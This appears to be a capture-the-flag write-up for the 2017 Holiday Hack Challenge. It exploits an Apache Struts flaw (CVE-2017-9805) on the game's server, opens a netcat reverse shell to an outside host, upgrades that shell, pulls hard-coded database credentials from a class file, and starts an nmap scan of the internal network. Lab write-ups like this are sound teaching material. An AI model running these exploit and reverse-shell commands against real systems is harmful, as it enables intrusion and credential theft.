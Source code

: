 After some research following the hints I decided to use this [tool](https://github.com/mazen160/struts-pwn_CVE-2017-9805) after it's indicating that this server is vulnerable:
```bash
$ python struts-pwn.py --url https://dev.northpolechristmastown.com/orders/

[*] URL: https://dev.northpolechristmastown.com/orders/
[*] Status: Vulnerable!
[%] Done.
```
After some try and error uploading a webshell I ended up using a simple reverse shell with another but simliar tool.
```bash
python struts_xml.py -u https://dev.northpolechristmastown.com/orders/- -c "nc -e /bin/sh federland.dnshome.de 56123"
```
As this is simple reverse shell is very annoying I was able to upgrade it nearly to a real TTY using this [article](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) and this resulting commands:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
$ export PATH=/usr/sbin:/usr/bin:/sbin:/bin
```
This two commands will give you easy access to all installed utilities and the possibility of using special keys.

As mentioned in the hints, developers will leave credentials behind, you have to look out for developing files like source code or documentation. As Alabaster deploys a Apache Struts server it's possible he created some java files for a apache tomcat server. Searching the default directory for the tomcat files we can find it:

```bash
$ grep -rli password opt

$ cat opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class
            ...
	    final String username = "alabaster_snowball";
            final String password = "stream_unhappy_buy_loss";   
	    ...
```
## 3 Network Reconnaisance & SMB Server

Task: 3) The North Pole engineering team uses a Windows SMB server for sharing documentation and correspondence. Using your access to the Letters to Santa server, identify and enumerate the SMB file-sharing server. What is the file server share name?

Therefore my first move was to scan the whole subnet:

```bash
nmap 10.142.0.0/24 
Starting Nmap 7.40 ( https://nmap.org ) at 2017-12-17 14:38 UTC
Nmap scan report for hhc17-l2s-proxy.c.holidayhack2017.internal (10.142.0.2)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
2222/tcp open  EtherNetIP-1

Nmap scan report for hhc17-apache-struts1.c.holidayhack2017.internal (10.142.0.3)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap scan report for edb.northpolechristmastown.com (10.142.0.6)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
```